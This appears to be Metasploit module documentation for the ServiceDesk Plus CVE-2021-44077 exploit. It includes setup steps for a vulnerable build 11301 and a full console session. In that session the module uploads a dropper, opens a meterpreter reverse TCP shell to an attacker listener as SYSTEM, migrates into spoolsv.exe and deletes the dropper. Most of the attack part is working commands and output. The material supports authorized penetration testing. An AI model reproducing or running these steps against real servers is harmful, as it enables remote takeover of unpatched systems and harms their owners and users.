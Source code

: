 ## Vulnerable Application

### Setup

Follow the [Installing ServiceDesk Plus] guide, in particular [Installation on Windows]. You can skip licensing.

1. Download [ManageEngine_ServiceDesk_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

Note that build 11305 is not an exploitable build, so don't download that.

[Installing ServiceDesk Plus]: https://help.servicedeskplus.com/installing-servicedesk-plus
[Installation on Windows]: https://help.servicedeskplus.com/introduction/installation-and-getting-started.html
[ManageEngine_ServiceDesk_Plus_64bit.exe]: https://archives.manageengine.com/service-desk/11301/ManageEngine_ServiceDesk_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### ServiceDesk Plus 11301 on Windows Server 2016

```
msf > use exploit/windows/http/manageengine_servicedesk_plus_cve_2021_44077
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > options

Module options (exploit/windows/http/manageengine_servicedesk_plus_cve_2021_44077):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter_reverse_tcp):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST                        yes       The listen address (an interface may be specified)
   LPORT       4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Dropper


msf exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > set rhosts 172.16.57.222
rhosts => 172.16.57.222
msf exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /RestAPI/ImportTechnicians is present.
[*] Uploading msiexec.exe
[+] Successfully uploaded msiexec.exe
[*] Executing msiexec.exe
[!] Yo, don't forget to clean up ..\bin\msiexec.exe
[*] Meterpreter session 1 opened (172.16.57.1:4444 -> 172.16.57.222:50095 ) at 2021-12-23 11:28:47 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-PRMQDT3BCJI
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\ManageEngine\ServiceDesk\site24x7
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 4816 to 1728...
[*] Migration completed successfully.
meterpreter > rm 'C:\Program Files\ManageEngine\ServiceDesk\site24x7\..\bin\msiexec.exe'
meterpreter >
```
